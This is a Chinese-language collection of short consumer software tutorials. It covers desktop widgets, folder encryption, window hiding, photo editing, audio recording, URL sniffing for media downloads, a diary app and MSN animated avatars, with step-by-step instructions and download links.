## 用谷歌桌面，最新信息轻松获得

文/TMG qf

你想轻松得到新闻、天气、E-mail等最新的信息吗？如果能将这些信息在计算机桌面上又方便又美观地呈现出来，真是不错！如何实现这一功能呢？我们可以通过谷歌桌面（下载地址：http://desktop.google.com）来实现这些功能。

**第一步：** 下载谷歌桌面，安装后运行软件。谷歌桌面“补充工具栏”以侧边栏的方式紧贴在桌面窗口的右侧，用户可以通过上方的“+”按钮或右键菜单，加入自己喜欢的小工具；也可通过单击“▼”按钮或右键菜单对谷歌桌面进行设置（见图1）。

**第二步：** 我们还可以利用谷歌桌面工具美化桌面，通过补充工具栏和小工具在桌面上显示即时资讯、收发电子邮件、查看天气和实现其它众多小功能等等。通过点击“+”按钮或右键菜单，用户就可以进行小工具的添加了（见图2）。

**第三步：** 谷歌桌面工具提供了多种类型的小工具，在左侧栏选择相应的类别，在右侧再选择需要的工具即可。例如添加收发电子邮件的工具，即在左侧选择“Google创建”选项，再在右侧单击电子邮件的“添加”按钮。

**第四步：** 我们还可以对谷歌桌面进行相关设置，如是否自动隐藏、是否总显示在最前端、谷歌桌面显示的字体大小、补充工具栏的位置（在桌面的左侧还是右侧）及以何种形式来显示谷歌桌面工具栏等等。单击谷歌桌面顶端的“▼”按钮或右击菜单。

**第五步：** 谷歌桌面还有一项重要功能就是搜索功能，它位于谷歌桌面的底部，通过它可以直接进行资料的搜索，并且可以将电子邮件、Word、PDF等纳入索引，还可以和Google的其它软件共通。

## 文件夹加密 保护隐私有绝招

文/TMG qf

电脑上存储着我们工作和生活中的大量文件数据。其中一部分敏感的文件数据，如私人信件、聊天记录、重要的资料是不想让别人看到、拷贝、删除的。而对于这种情况，我们需要采取一些办法来保护这些隐私，比如对相关文件数据进行加密，以防泄露。如何给文件夹、U盘、移动硬盘加密呢？我们可以通过MINI加密软件（下载地址：http://www.newhua.com/soft/59103.htm）来给文件夹加密。

**第一步：** 下载MINI加密软件，解压缩运行MINI.exe。选择“加密其它文件”选项，在弹出窗口中选择要加密的文件夹。

**第二步：** 在“输入密码”、“再次输入”中输入两遍所要设置的密码，单击“加密”按钮进行加密。

**第三步：** 在加密的时候，还可以进行加密设置，单击“高级设置”按钮，对加密进行设置（见图1）。可以设置加密的强度、快捷方式、图标等。对于加密强度设置：选择“强度：最高”，则用256位Blowfish算法完全加密文件，可以阻止一切方式的非法解密，适用于加密十分机密的文件；选择“强度：较高”，只有正确的密码才能还原文件，能有效防止嗅探、暴力破解，加密了文件头且打乱文件结构，平均每秒可加密50个文件；选择“强度：普通”，安全性一般，有可能被黑客破解，但加密速度一流，GB的文件只需一秒，适用于加密普通的文件。

“加密后，复制解密程序到加密文件夹”，若不选中该项，文件夹下将没有解密程序，只要将本加密器复制到文件夹下即可解开。

“使用密码提示，提示将出现在解密界面”，此项功能十分实用，建议您设置该项，防止遗忘密码。

“文件名或后缀中，包含有指定字符的文件将不被加密”，软件将过滤指定的文件，被过滤的文件将不被加密。

**第四步：** 如要对已加密的文件夹进行解密，则双击要解密文件夹，再双击软件图标进行解密。解密时只需输入解密密码即可，再单击“解密”按钮（见图2）。

## 小小鼠标，演绎精彩懒人生活

文/TMG zlw

现如今，电脑成为我们工作生活的必备工具，小小鼠标的功能不可小觑。三个小巧的按键，两种简单的操作方法，其中却蕴含了丰富的指令。你是不是很习惯现在的它呢？说老实话，我对此还是颇有微词的。单击、双击经常误操作，全是因为停顿的时间不好掌握；写文章截个图还得另外打开截图软件；就连屏幕文字的抓取都还得小心翼翼，生怕出错。这一切，让身为懒人的我无法适从。还好有了德威懒人鼠标，它功能强大、简单易用，将屏幕截图、鼠标手势和鼠标双击模拟等功能完美集于一身，使截图、屏幕文字抓取、Windows操作和鼠标双击变得更加快捷方便，是懒人的好伙伴。

### 双击模拟

想象一下：把鼠标指针停留在需要操作的对象上，按住鼠标左键，停留片刻，系统就自动帮你完成了本该双击左键才能完成的操作，这是一件多么惬意的事情啊。还有，只要将鼠标指针停留在窗口的标题栏处，长按鼠标左键，该窗口就能自动最大化，真的很神奇。时间的长短由你自己掌控，在“长按鼠标左键”里设置即可。

### 鼠标手势识别

鼠标手势，简单来说就是通过手势来对鼠标进行控制，准确地完成一系列的操作。几个简单的动作，使用起来很方便，还可以尽量地降低误操作的概率。熟练掌握后，一切变得轻松自在。

软件已经设置好了四种鼠标右键手势（见图2），分别是：按住鼠标右键，向左下移动即可完成当前窗口的最小化操作；向右下移动即可完成当前窗口的关闭操作；而向右移动表示前进；向左移动表示后退。是不是好像在挥动旗语，指挥军队呢？

### 截图和屏幕抓图

“德威懒人鼠标”的截图和屏幕抓图功能，让我再也不用为了截张图而而去打开了截图软件了，而是可以直接通过对鼠标的操作，即时保留下中意的图片。

需要截、抓图片时，只需要点击鼠标中键进入截、抓图状态即可，进入状态后，鼠标的指针就将变成“+”状态。我们就可以开始截、抓图啦。按住鼠标的左键并拖动，直到选取到合适的位置后，就可以松开鼠标左键了。

这时你会看到一个“照相机”的图标，咔嚓一声后，截选、抓取到的图片便自动帮你存放到剪切板上去了，需要使用，你就使用“Ctrl+V”组合键将它粘贴至合适处就行了，可以选择JPG、BMP、WMF等格式另存下来。

支持的抓图方式有：抓取全屏、抓取矩形、抓取椭圆和抓取任意形状四种。截图也支持矩形、圆形、椭圆和任意形状四种，还可以选择自己喜欢的图框，让生活更有创意（见图3）。这些可以任你在“抓图设置”里设定。

“德威懒人鼠标”让懒人的生活变得更加舒适，也让非懒人的工作更轻松！不是吗？

## 隐藏窗口的好助手

文/TMG qf

你是不是在上班时间聊天、看小说、玩游戏怕被上司发现？如果能在上司来查看你工作情况的时候及时隐藏那些程序的窗口就好了！怎样才能将那些娱乐窗口隐藏伪装起来，给你最大限度的自由呢？可以通过HideHelper（下载地址：http://www.newhua.com/soft/32121.htm）对窗口设置隐藏热键、改变显示图标文字，实现伪装、隐蔽功能。

- 第一步：下载HideHelper，解压缩安装软件。启动软件后，我们看到的是“窗口列表”标签页的内容，此页显示了当前我们在桌面打开的所有程序的名称和当前窗口，同时我们还可以看到它的窗口类名和进程名称。若要隐藏某个程序的窗口，则双击要隐藏的窗口列表。如果对同一个进程打开了多个窗口，则右击一个要隐藏的窗口，选择“隐藏同一进程的所有窗口”选项。
- 第二步：HideHelper还可以将窗口半透明化，在半透明化的窗体下聊天玩游戏，也是一种不错的体验。在“窗口列表”标签页下，右击要透明化的窗口，选择“改变窗口透明度”选项。
HideHelper一共提供了七种透明设置，我们可以根据需要选择合适的透明度（见图1）。
- 第三步：为了伪装窗口，我们还可以改变窗口显示的图标和标题文字。在“窗口列表”标签页下，右击要改变图标文字的窗口，选择“改变窗口图标、标题”选项，在弹出的对话框中，输入窗口的新标题，再从本机选择一个窗口的新图标。
- 第四步：HideHelper对于系统托盘中的图标也可以进行隐藏。单击“托盘”标签，切换到托盘标签页，选择要隐藏的图标，单击下面的“隐藏/显示”按钮，即可改变它的隐藏/显示状态。
- 第五步：为了保护个人隐私，HideHelper提供了自我保护的功能，可以将窗口隐藏助手自身做一个锁定，这样别人就无法使用HideHelper隐藏你的窗口了。单击“文件”选项，选择“密码锁定HideHelper”选项，在弹出的对话框中设置密码。
- 第六步：在HideHelper中我们还可以方便地定制隐藏热键。单击“持久热键”标签，切换到持久热键标签页，单击“新增热键”按钮，在弹出的对话框中我们可以设置隐藏/显示热键并且指定条件。条件有窗口标题包含文字、窗口类名、进程名称，而每种条件又可以拥有多个值，多个值之间可以用英文的逗号分开，窗口类名和进程名称可以通过在“窗口列表”选项页里的查看“详细信息”功能来得到。输入完毕后，单击“保存”按钮，此刻用户就可以使用热键进行隐藏或显示满足条件的窗口了（见图2）。

## 图片医生ImageDoctor

文/TMG qf

很多朋友会发现自己拍摄的照片效果没有预期的好，例如脸上的皱纹、斑斑太多，拍得好的相片却被划花了。想拍一张不错的相片真不容易，不过有了图像医生，它可以帮我们救治“废”相片，变废为宝。

Image Doctor中文意思是图像医生，是一款图像滤镜插件，可以将它安装在Photoshop的滤镜中，这需要根据计算已经安装了的图像软件来确定。

下载ImageDoctor（下载地址：http://mydown.yesky.com/soft/multimedia/manipulate/358/427858.shtml），解压缩文件，把Image Doctor English Demo滤镜加载入Photoshop，打开Photoshop。

### 修复噪点

很多时候我们拍的照片，整体效果看起来很不错，美中不足的是拍摄时的噪点太多，照片上密密麻麻的小点让人看了很不舒服。我们可以用“JPEG Repair”滤镜去医治它。

- 第一步：单击“滤镜”按钮，在弹出菜单中选择“Alien Skin Image Doctor”选项，再单击“JPEG Repair”按钮，弹出编辑界面。
- 第二步：单击“设置”按钮，在弹出菜单中选择“Repair Strong Artifacts”选项。软件会自动对照片进行处理。
- 第三步：如果预先定制的效果不满意，还可以自己修改Add Grain、Blur Edges、Remover Artifacts中的参数。
此时在编辑界面的预览窗口中看到相片上的噪点都已经去除了，相片变得非常光滑，呈现出画中人物漂亮的脸貌。

### 去除划痕

有时候我们最喜欢的照片上却被划上了划痕，这就需要ImageDoctor来帮忙，去除划痕，还照片的本来面目。

- 第一步：框选出照片中的划痕。但是在处理的时候需要注意，当划痕所在的位置范围不大但是颜色区域跨度很长，如本例笔画的痕迹经过了人的手、身体和衣服，因此我们在开始用套索工具选择处理区域的时候，应该根据颜色的分块逐个选。
- 第二步：单击“滤镜”按钮，在弹出菜单中选择“Alien Skin Image Doctor”选项，再单击“Scratch Remover”按钮，弹出编辑界面。
- 第三步：在界面的左侧设置参数，并仔细在预览窗中观看效果图，以使修复效果达到最佳。在参数设置中“收缩/扩展像素”（Contract/Expand）的值会直接影响到处理的效果，就是1.2个像素的差别也会有不同的清除效果。

### 去除背景事物

有的时候我们拍的照片前景很好，但是背景比较繁杂，使照片显得凌乱。如果让背景干净、清爽一些，效果会更好。使用ImageDoctor就能很容易做到这点。

- 第一步：框选出照片中的需要去除的物体。但是在处理的时候需要注意，如果物体很不规则，则我们需要用套索工具选择要处理区域。
- 第二步：单击“滤镜”按钮，在弹出菜单中选择“Alien Skin Image Doctor”选项，再单击“Smart Fill”按钮，弹出编辑界面。
- 第三步：分别设置“收缩/扩展的像素”（Contract/Expand）、“材质羽化像素”（Texture Feather）、不选择使用背景（Stitch into Background）及自定义羽化半径（Feather Radius），仔细观察预览框中的图像效果，满意后单击“确定”按钮（见图）。

## 优盘搬运工——你的私人搬运助理！

文/TMG lxr

如今，我们的学习、工作和生活基本上都离不开电脑，办公室、家里经常有不仅一台电脑，而我们也经常携着大量数据资料在多个电脑之间往返。如果不需要在家里和学校或单位的电脑之间来回拷贝文件资料，就能让不同的电脑资料同步，那就方便多了！

现在，就为大家推荐一款软件——优盘搬运工（下载地址：http://www.newhua.com/soft/46244.htm），它可以将你的U盘与电脑上的文件保持一致，还提供了其额外的“优惠服务”哦！比如：可以将你想要的文件自动从你插入的光盘或U盘中复制到你的电脑上，还可以在你的电脑上设置一个能自动弹出U盘的热键等等。

### 如何进行搬运？

搬运过程是这样进行的：打开运行该软件，并提前设置好需要搬运的文件类型（比如：Word文件），之后软件就会监控所有的USB端口和光盘的动静，一旦发现有U盘、移动硬盘或光盘接入电脑，软件就会立即自动搜索指定的文件类型并复制到指定的文件夹下。完成工作后，将移动存储设备自动卸载。如此大量的搬运工作，只需你一次预先设定好参数，剩下的事情就可以完全交由优盘搬运工来实现了。

### 怎样保持文件同步？

文件同步特别适用于在单位和家中交叉使用电脑的朋友，它可以使电脑和U盘中我们指定的文件保持同步更新。软件一旦运行，根据事先设置好的需要同步的文件夹，实施监控，若发现有U盘、光盘或移动硬盘接入，即可同步更新指定文件夹。

此外，软件还有阻塞优盘和优盘痕迹的功能。阻塞优盘可以阻止优盘上某种指定文件类型的运行。优盘痕迹功能则可以显示在你电脑上曾经连接过的所有的USB设备的使用记录。还可以通过软件的“常用操作”选项，对U盘进行禁用及卸载设置等，也可以通过“基本设置”中的“基础设置”，设置一些热键，来控制软件的打开、文件的拷贝和U盘的卸载等。

## 鱼鱼桌面——打造最精美实用的桌面

文/TMG hzl

你有没有为桌面不好看而烦恼过? 桌面布置得不美观，工具程序杂乱排列，相当影响心情，还会降低工作效率。现在有了鱼鱼桌面这款软件，一切都会完全改变。

下载鱼鱼桌面软件 (下载地址：http://www.newhua.com/soft/42557.htm )，安装软件。

运行鱼鱼桌面程序，程序默认自带的小工具即可随处可见，包括语音时钟显示、日历、网址导航、我的空间等模块。这些桌面小工具精致漂亮，别致又实用 (见图1)。

鱼鱼桌面默认的小工具如果还不满足需求，可以为其添加新成员，功能更多，作用更大，让桌面成为“导航站”或者“快速登录器”等等。操作时首先单击侧边栏顶端的“+”按钮，开启程序自带的“小工具库”对话框。该对话框中集成了很多方便实用的工具模块。

当然，还可以随意移动小工具，不一定要将这些小工具都集中在侧边栏。你想怎样摆放就怎样摆放，随你喜欢。而且，还可对小工具改头换面，重新装扮，比如，可以在某个功能模块上单击鼠标右键，然后即可在开启的功能菜单中，利用“风格”、“透明度”等选项，根据个人喜好改变面板的显示，让其多姿多彩，形态不一。

选择好想要的工具，右击，然后选择快捷菜单上的“启动小工具”选项即可把小工具“植入”到侧边栏里去。当然，你也可以直接将小工具拖到侧边栏里去，就可使用 (见图2)。

假如还想更进一步个性化设置小工具，可选择快捷菜单上的“选项”命令，根据需要调用所选工具模块的设置功能，进行个性化设置。

### 桌面美化，小工具装点你的桌面

### 桌面实用，小工具方便你的生活

桌面不但要精美，关键还是要实用。每个人都不希望只把自己的桌面装扮成一个有形无质的大花瓶，更希望把它作为一个综合平台，方便实用。鱼鱼桌面的小工具随时可以看天气预告，新闻焦点、计算机的状况等等信息。

综述：不管是桌面美化，还是实际的小工具便捷运用，鱼鱼桌面都给我们带来极大的满足。相信大家会一见钟情，相见恨晚。

## 最强的网址嗅探工具——网址神探

文/TMG qf

很多朋友都喜欢在线收看电视、电影，但有些网站由于网络服务器速度较慢或同一时间收看的人较多，会出现断断续续的画面，让人无法忍受，即使加大缓存后还是不理想。如果把视频下载到本地硬盘再看，这个问题就解决了，可是很多在线电影不提供直接下载地址，如何找到下载地址呢?

网址神探 (下载地址：http://www.onlinedown.net/soft/84411.htm) 作为一款网址嗅探工具，就能抓取到经过浏览器的所有地址，它还可以帮助你方便地下载。很多网站对视频、音频和Flash地址做了隐藏，而网址神探分门别类地列出音乐、视频、Flash的资源，很轻松地就能把这些资源下载到你的硬盘中。

- 第一步：选择“所有”选项，单击“嗅探网址”标签，将会显示所有嗅探到的网址。
- 第二步：选择想要下载的文件，然后单击界面下方的“查看详细”按钮，将会打开网址详细信息对话框，在对话框中显示了文件的具体信息，包括：文件名、服务器、网址、文件大小、文件类型等等。
- 第三步：选中想要浏览的网址，然后单击“复制网址”按钮，再把该网址粘贴在浏览器的地址栏上，这时我们就可以预览到该网址上的内容了。
- 第四步：网址嗅探能够嗅探到所有浏览过的网址，所以会显示出很多网址，不便于查找。为此网址神探还提供分类查找，把网址分为音乐、视频、Flash类型，比如勾选Flash选项即可显示Flash类型的所有文件。
- 第五步：同样我们可以查看到这些Flash文件的详细网址，单击“下载”按钮，打开一个文件下载窗口，在此窗口设置文件保存路径及文件名称即可下载该Flash文件。运用同样的方法我们就可以下载到想要的视频、音乐、图片等内容了 (见图)。

有了网址神探嗅探工具的帮助，我们就可以轻松地把心仪的网络资源下载到硬盘了。心动了吗，赶紧下载试试吧！

## 印象派照片轻松做——美图秀秀

文/TMG qf

很多人都喜欢插画风格的照片，怎样才能把自己的照片做成“印象派”的风格呢？使用美图秀秀，就可以很简便地做出来，还可以加上非主流闪字、闪图，十分抢眼哦。

下载美图秀秀软件（下载地址：http://dl.pconline.com.cn/download/51740.html），安装软件。打开美图秀秀软件，单击“打开一张图片”按钮，选择一张你要编辑的图片。

### 修改图片风格

单击“图片处理”按钮，进去照片编辑界面。然后在编辑界面右侧的特效展示区，可以看到很多图片处理风格：黑白色、怀旧、暖化、浮雕、报纸、反色等等。例如我们单击“报纸”风格，中间的图片风格就完全变样了，有了报纸的“印象派”风格。

### 图片人物美容

图片换了风格以后，为这个黑白图稍配些色彩，显得更俏皮。单击“美容”按钮，进入美容编辑界面。在左侧我们可以看见有很多美容方式：磨皮、腮红、眼睛放大、眼影、睫毛等。接下来单击我们需要的美容方式，界面右侧就会相应地显示出很多样式。例如选择“腮红”，界面右侧会展示出多款腮红的样式，根据喜好再单击应用到原图上。这时会出现一个操作方框：单击拖动四角可以调整腮红的大小，右下角三个按钮分别可以实现透明度调节、摆放角度调整、退出编辑状态（见图1）。



### 添加饰品

给图片挑选一些心仪的小饰品点缀一下图片。单击“饰品”按钮，进入饰品编辑界面。界面左侧显示了饰品的分类，右侧则显示了各分类所对应的各种饰品。先从左侧的分类中选择一类，再单击右侧心仪的饰品，拖入图片中。例如在左侧单击“装饰品”按钮，再在右侧选择一个饰品拖入图中。这时会出现一个操作方框：单击拖动四角可以调整饰品大小，右下角三个按钮分别可以实现透明度调节、摆放角度调整、退出饰品编辑状态。

### 添加闪字

首先在图片上添加一些闪字，让图片更亮一点。单击“闪字”按钮；进入闪字编辑界面。界面左侧是文字编辑区，显示了文字的属性。接下来在“输入文字”中添加想要添加的文字，再设置字体、字号、颜色等属性。然后单击“动画闪字详细设置”按钮，在弹出的对话框中设置动态字体属性。可分别设置字的大小和颜色。单击“静态文字详细设置”按钮，在弹出对话框中，设置字体的字形及效果。完成各项设置后，单击“生成动画闪字”按钮或“生成静态文字”按钮，呈现文字效果（见图2）。



### 添加闪图效果

- **第一步：** 单击“闪图”按钮，进入闪图编辑界面。界面左侧显示了闪图的分类，右侧则显示了各分类所对应的各种闪图。
- **第二步：** 先从左侧的分类中选择一类，再单击右侧喜欢的闪图。例如我们在左侧选择“条纹闪图”，在右侧具体选择“闪动百叶窗”方式。则图片就以百叶窗的方式进行闪烁了。
- **第三步：** 在闪图编辑框中，我们可以调整图片闪烁的速度，调整好后单击“保存”按钮。

## Total Recorder——让你的在线试听音乐更流畅

文/TMG lxr

喜欢音乐的朋友会明显感觉到，有的时候自己最爱的一首歌在网上已经找不到下载地址，取而代之的只能是在线试听，然而在线试听的效果大家都应该很了解的，由于受网速的影响，声音很卡，本来是想好好地享受音乐，被这么卡几下，相信没几个人会有好心情啦！那么，是否能把这些无法下载的音乐占为己有，可以随时随地收听呢？可以告诉大家，答案是肯定的！通过Total Recorder就能帮你们轻松实现这个愿望！

Total Recorder是一款十分优秀的录音软件，可以录制所有通过声卡和软件发出的声音，包括来自Internet、音频CD、麦克风、游戏和IP电话语音的声音。最重要的是它所录制的声音效果很好，完全不失真。

下载地址：http://www.crosky.com/soft/154.html

下载完毕，解压缩后进行安装，安装结束后双击桌面上的Total Recorder图标打开软件，就可以轻松在线试听音乐（见图）！



### 第一步：参数设置

单击“录制音源和参数”按钮打开该设置对话框，将音频录音源选为“软件”形式，然后单击“确定”按钮。

### 第二步：开始录制

返回主界面，打开你在线试听的音乐，同时单击软件主界面右下角的红色圆圈按钮开始录音。你可以看录音电平表上的那两个条形的绿色水平柱是否在左右闪动，如果是，就说明录音正在进行中，反之，则可能是出现异常啦。如果录音中途你有事或者想听一下录制的效果，软件也为大家提供了“暂停”键，方便随时录制随时停止。

> **特别注意：**在“软件”模式下进行录音，按下录音按钮时可能会出现一个提示性的对话框。这时，我们应单击“确定”按钮，随即会弹出一个界面——“声音和多媒体属性”界面，我们选择“音频”，然后将“声音播放”里的首选设备和“录音”里的首选设备分别改成“Playback through TotalRecorder”和“Record through TotalRecorder”。最后单击“应用”，再单击“确定”即可。

### 第三步：保存

选择“文件”选项中的“保存”或者单击菜单选项中的“保存”图标或者使用“Ctrl+S”快捷键组合，然后选择相应文件夹进行保存。

最后，就可以用你的播放器打开刚刚保存的音乐，尽情享受原汁原味、流畅的音乐了！

OK！Total Recorder录制就是这么简单，它能把网络上的各种音乐和声音原版录制下来，想什么时候听就什么时候听，想怎么听就怎么听，再也不用听那断断续续的音乐了！

## CYY超级启动——全智能的桌面助手

文/TMG lxr

你想让你的电脑具有记忆功能吗？帮助你记住曾经访问过的一些网页、曾经使用过的一些软件或者曾经打开过的一些文件夹。现在真有这样一款符合上述要求的软件，它就是CYY超级启动！这是一个小型的系统辅助工具，可以帮助你自动记录你使用过的网站、软件以及文件夹。在你下次重新打开电脑的时候，可以通过该软件很方便地找到这些使用过的程序，然后直接启动它们就ok了！此外，我们也可以通过该软件快速打开系统的特殊文件夹，比如说：我的电脑、我的文档、控制面板等。

心动不如行动！赶快下载喽！

下载地址：http://www.newhua.com/soft/84753.html#download

该软件的查找方式有很多种，在主界面中以页面的形式进行区分。

### 方法一：“全部”查找

单击“全部”页面，可以寻找使用过的软件、文件夹或者网页。但是有的时候自动记录的软件、网页以及文件夹会很多，会给我们查找带来很大不便。

### 方法二：“软件”查找

如果我们要打开的是曾经使用过的软件，那么只需单击软件菜单栏中的“软件”页面，菜单栏的下方空白处就会显示我们已经用过的软件列表。我们需要使用哪个软件，只需用鼠标单击就可以打开。

### 方法三：“文件夹”查找

如果你想找的是之前打开过的文件夹，那么你可以单击“文件夹”页面，使用过的文件夹就会相应地显示在程序下方的空白处，通过单击文件夹可以打开需要的文件。

### 方法四：“网页”查找

如果你需要曾经访问过的网页资料，那你就要进入“网页”页面进行查找了。单击菜单中的“网页”，会显示你访问过的所有网页。用鼠标选中并单击网页的链接地址，便可打开该网页。这样也省去重新寻找该网页的麻烦。

### 方法五：“系统”查找

通过单击“系统”模块，我们可以选择并快速打开部分特殊的系统文件夹，如：我的电脑、我的文档、任务管理器、控制面板等。

另外，我们还可以通过软件菜单栏中的“设置”页面，对该软件进行一些设置，包括“窗体总在最上方”、“开机时自动启动”选项，设置刷新的频率和启动文档，还能“删除所有历史文档”，让软件使用起来更方便。

听我这么一说，是不是觉得使用起来特别方便呢？可以帮助你小小地偷懒一下哦！那就赶紧下载使用吧！

## 记录岁月痕迹——效能日记本

很多人都有写日记的习惯，随着博客、空间的兴起，不少人都转战网络日记了，让朋友一起分享自己的喜怒哀乐。但写日记有时还是会写一些隐私的东西，不想被人看到，在博客上加密码太麻烦，寻找一款免费好用的单机版电子日记本，无疑是最佳选择。效能日记本就是一款这样便捷的软件，让我们保存电子档的日记，还能很好地保护隐私。

下载效能日记本软件（下载地址：http://www.newhua.com/soft/77542.htm），解压缩安装后运行。



### ## 设置密码，保护隐私

给日记加设密码，保护隐私不被非法访问。建议大家设置一个不容易被别人猜中又好记的密码。

在第一次运行效能日记本的时候，软件会提示设置一个密码，我们输入密码后，以后每次登录都必须正确输入这个密码后才能登录进去。

如果以后想换密码了，先用原来的密码登录，在菜单栏中单击“文件”，选择“密码”选项，重新设置密码即可。

### ## 记录岁月痕迹

效能日记本的主要功能当然是写日记，它提供了强大的编辑功能，可以随心所欲地插入图片、表格、超链接等，还可以随意地改变日记风格，打造出完全属于你自己的私人日记。

- **第一步：** 效能日记本第一次运行时，需要新建一个“我的日记.edf”文件，在这个文件中将会保存你个人的所有信息。
- **第二步：** 在软件主界面中单击“新日记”按钮，即会弹出日记的编辑窗口。这个编辑窗口提供了文字编辑、插入图片、插入表情等多功能（见图1）。

### ### 第三步：

看多了一种样式的日记本是不是有点乏味？不妨给日记本换个风格吧。在菜单栏中单击“视图”按钮，选择“界面风格”按钮，就会出现蓝色经典、紫色心情、怀旧2000等不同风格可供选择。

### ## 日记备份

电子档的日记最怕的就是突然丢失，电脑突然中毒、系统崩溃等等都有可能导致日记的丢失，所以平时一定要注重日记备份，可将它备份转移到其他硬盘分区或者备份至U盘中。

在菜单栏中单击“文件”按钮，在弹出菜单中选择“备份”选项（见图2），选择所要备份的路径，效能日记本备份文件将以*.edfbak文件存在。



在需要恢复备份数据时，在菜单栏中单击“文件”按钮，选择“恢复”选项，将会弹出对话框，选择一个备份文件打开，即会恢复所有数据。

写日记是一个好习惯，多年以后可以留有很多回忆，用电子日记本轻松记录这些岁月痕迹吧。

## 照片管理好帮手

现在我们的数码相片越来越多，如果都放在一起会显得很乱，这时需要对照片进行管理，建立相册专辑，方便以后对照片进行查看、保存、管理。怎样才能更好地管理照片呢？我们可以通过相片快车SwayAlbum Express（下载地址：http://www.newhua.com/soft/32350.htm）轻松管理照片。

- **第一步：** 下载相片快车SwayAlbum Express，解压缩安装软件。打开软件，创建个人电子相册专辑，单击“新建”按钮，在弹出的对话框中填写相册名称。若勾选“高级选项”，将会出现高级选项的界面，输入相册的名称，如photo，然后输入所有者、拍摄的时间，并可以对该相册进行简单的说明，如果不想别人观看该相册还可以设置密码。如果想一边欣赏照片一边听喜欢的音乐，可以单击“浏览”按钮选择自己喜爱的音乐作为相册的背景音乐。完成了上面的操作后，单击“确定”按钮就创建了一个相册。
- **第二步：** 来给新建的相册添加图片。单击所创建的相册，将它设为当前工作相册。在左侧“目录”中找到需要放入相册文件中的照片文件，在这里可以像Windows中的资源管理器一样对计算机中的图片文件进行浏览、查看。再选择我们要加入该相册的照片，右击鼠标、选择“存入相册”选项，这时就会将选中的图片加入到当前的相册。照片存入相册后，相册中会显示加入的照片缩略图，一个相册就算是建立完成了。
- **第三步：** 我们还可以对相册中的照片进行编辑。在右侧浏览器中选择要编辑的图片，双击图片，进入图片编辑面板。在此可以更改图片的大小，旋转图片，设置亮度、对比度、颜色过滤（见图1）。修改完后，单击“保存”按钮。

若要发布成可执行文件，单击菜单栏中“相册”中的“生成”选项，弹出生成向导窗口，在窗口中选择“可执行相册（EXE）”，单击“下一步”按钮。再选择相册存放的路径进行保存。以后就可以直接运行相册文件进行照片的浏览了，同时也可以对相册文件使用相册快车打开后进行编辑，或增加新的照片（见图2）。

- **第四步：** 相册制作完成了，就可以发布相册了。在相册发布前可以对照片进行预览，单击菜单栏中“相册”中的“预览”选项即可进行预览。



- **第五步：** 预览结果满意后就可以发布了。我们可以把相册发布成可执行文件，也可以发布为网页组格式。
- **第六步：** 若要把相册发布成网页格式，则单击菜单栏中“相册”中的“生成”选项，弹出生成向导窗口，在窗口中选择“HTML格式相册”，再单击“下一步”按钮。程序即会自动开始创建，直到完成。此时，生成的文件就可以发布到任何地方，并可以在 Internet Explorer 中运行。

## 组织结构图，让PPT课件一目了然

文/学游泳的鱼

目录能让文章的脉络一目了然，有没有想过为你的PPT课件也编个目录呢，这样既能让课件的设计思路清晰，又能在放映时随心所欲，让观众一目了然。跟我一起来，用组织结构图，PPT课件目录轻松做。以下以人教版八年级物理第三章第四节的“眼睛和眼镜”课件为例。



第一步：建立目录幻灯片。打开已有的PPT课件，在第1张幻灯片后面新建一张空白幻灯片，在幻灯片版式中选择带组织结构图的版式，然后点击该图标打开组织结构图对话框，默认选中第一种类型，直接点击确定打开组织结构图并弹出其工具条。

第二步：制作课件目录框架。选中第一个框，输入“1-复习回顾”，第二、第三个框分别输入“2-学习目标”和“3-导入新课”。再选中第三个框，根据课件的结构编排，利用工具条中的“插入形状”下拉列工具条添加相应的“同事”、“助手”或下属，并往每个标题框中输入相应内容（见图）。输入完成后，选中整个结构图框，然后设定相应的字体、文字大小、颜色等格式的设置。按住“Shift”键逐一选定同一级别的标题（或者选中其中一个标题框，然后点击组织结构图工具条上的“选择→级别”，这样同一级别的框就会被同时选定），然后设置相应的填充颜色、效果、阴影等，不同的标题可以设置不同的颜色、效果或阴影，这样就完成整个课件的目录框架的布置。

第三步：为各个标题添加相应的链接。选定“1-复习回顾”框（四周会出现8个控点），点击菜单“幻灯片放映→动作设置→超级链接到→幻灯片……→幻灯片3（因为“复习回顾”的内容在该幻灯片上）→确定”，至此该标题框的链接就完成了。用同样的方法为其它的标题框依据课件设计的脉络分别设置对应的幻灯片链接，完成后，整个目录框体的链接就大功告成了。

第四步：设置“返回”按钮，以便放映时随时返回目录页。点击菜单“视图→母版→幻灯片母版”打开母版编辑视图，然后点击菜单“幻灯片放映→动作按钮→第2个屋形按钮”，画出屋形图标，此时会自动弹出“动作设置→超级链接到”对话框，把默认的“第一张幻灯片”修改为“幻灯片……→幻灯片2（因为学习导航目录在该幻灯片上）”，然后连续确定。再右击图标选择“添加文本”并输入文字“返回”，最后把图标拖动到右下角，再关闭母版视图，这样所有幻灯片上的右下角都会出现该带链接的返回按钮。



## 让MSN头像动起来

你的ＭＳＮ头像还是静态头像吗？是否已经开始有点厌烦自己的头像太没个性也没乐趣？其实，现在微软新版的Windows Live Messenger（简称WLM）已经支持动态头像了，让你的头像动感起来，更加性感，更加令人过目不忘。

下载新版Windows Live Messenger（简称WLM），安装好，然后登录Windows Live Messenger，进行下列操作，可轻松获取你想要的动态头像，方式多种多样。

### 轻松实现动态头像，简便快捷

假如你想简单一点，设置动态头像不用那么复杂，可以使用最轻松的操作。

首先单击WLM面板左上角的头像。然后在弹出的“显示图片”窗口里，直接选择使用系统内置的五款动态头像，选中其中一款，单击“确定”按钮，即可轻松为你的WLM换上动态头像了（见图1）。这五款动态头像的效果都是很不错的，你可以随时更换，操作十分简单。



### 我的头像我做主，自制头像张扬个性

当然，很多人喜欢让自己的头像更加个性更加动人，那么可以尝试自己制作动态头像，创意十足，独具个性。操作也比较简单，利用安装在电脑中的摄像头，在线拍摄一段精彩的4秒钟视频剪辑，就可为自己制作十分个性的动态头像。

**第一步**：单击“显示图片”窗口里的“网络摄像机快照”按钮。

**第二步**：在弹出的“通过网络摄像机创建显示图片”窗口里单击“录制视频”按钮，开始录制，录完4秒钟自动停止录制。

**第三步**：单击“完成”按钮，于是刚才的视频剪辑就成了WLM上的动态头像，想要的头像效果也就轻松展示出来了。

### 让自己的头像更卡通可爱

此外，假如你想你的头像效果更加可爱更加惹人喜欢，还可以将头像设置为动态卡通头像，童趣十足且效果极佳，人见人爱。

**第一步**：单击“显示图片”窗口里的“创建动态显示图片”文字链接。在弹出的“MyShow 3.0”窗口里，单击“动态头像→动漫头像”。

**第二步**：在切换到的“动漫头像”选项卡里，从头像列表中选中喜欢的头像，单击“下载安装”按钮（见图2）。



